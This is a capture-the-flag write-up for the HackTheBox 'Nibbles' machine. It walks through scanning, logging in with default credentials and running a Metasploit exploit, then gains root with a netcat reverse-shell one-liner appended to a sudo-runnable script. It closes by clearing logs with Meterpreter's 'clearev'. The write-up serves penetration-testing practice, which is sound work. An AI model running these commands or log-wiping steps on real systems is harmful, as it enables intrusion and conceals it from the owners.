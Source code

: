[Back to Main Page](../index.html) 

# Nibbles on HackTheBox





## Introduction

--

## 1. Initial Scanning

As usual we only have the IP so we start an nmap scan.

`nmap 10.10.10.68`

![1nmap](https://i.imgur.com/2rih64N.png)

nmap did find SSH and Port 80.
Due this we check out the webpage and look closer at the source code.

![1source](https://i.imgur.com/lYBc5oS.png)

Intersting. /nibbleblog/
Therefore we use nibble against /nibbleblog/. DIRB is a Web Content Scanner.

`dirb http://10.10.10.75/nibbleblog/`

![1source](https://i.imgur.com/lYBc5oS.png)

It shows admin.php, which is an login interface.

## 2. Using the basics to get access

Before trying to break into it, always try some defaults. admin:nibbles

![1break](https://i.imgur.com/17wiJUm.png)

We're in! 
After a while of searching the webinterface and not getting any further I decided to check for exploits. 
I looked up for any exploit with nibble in it and GOTCHA.  
 
`searchsploit nibble`

![1search](https://i.imgur.com/rFxtQsi.png)

Of course, I used the metasploit exploit, so I called in the msf console.

## 3. Exploit

The Metasploit Project is well known for its anti-forensic and evasion tools, some of which are built into the Metasploit Framework.
Metasploit currently has over 1677 exploits, organized under the following platforms: AIX, android, bsd, bsdi, cisco, firefox, freebsd, hpux, irix, java, javascript, linux, mainframe, multi (applicable to multiple platforms), netbsd, netware, nodejs, openbsd, osx, php, python, R, ruby, solaris, unix, and windows.

![1splot](https://i.imgur.com/CISJNvpg.png)

Setup the exploit. Additional we set the Listerner LHOST to our IP and LPORT to 4000.
After that we fired it up.

![2splot](https://i.imgur.com/ZE648q2.png)

## 4. Capturing the Flag

Somebody left the flag after exploiting the monitor.sh in the /tmp/ folder, but I wanted to get it for real myself.
I found a zip within home/nibbler with a monitor.sh in it.
To de-zip, or execute files you always have to call the `shell` first.

![1ctf](https://i.imgur.com/HfUWxlj.png)

After that I did set up a nc listener on post 2491 and added following command into the monitor.sh file.

`echp "rm/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.XXX 2491 >/tmp/f" >> monitor.sh`

Thank you for that command @sicurolab.´

![2ctf](https://i.imgur.com/ANHg0Jv.png)

We then execute the monitor.sh file with /usr/bin/sudo and receive our root shell.

![3ctf](https://i.imgur.com/J05iDMS.png)

`cat root.txt` - system flag captured!

`cat /home/nibbles/user.txt` - user flag captured!

## 8. Cleanup
 
Firstup I cleaned the whole /tmp/ folder to make it harder for future players. 
Since this is a CTF, cleanup isn’t mandatory.
However, we want to develop good habits and operational security practice. Meterpreter has a `clearev` command that can be used to cover our tracks - let’s run it and be out of here.










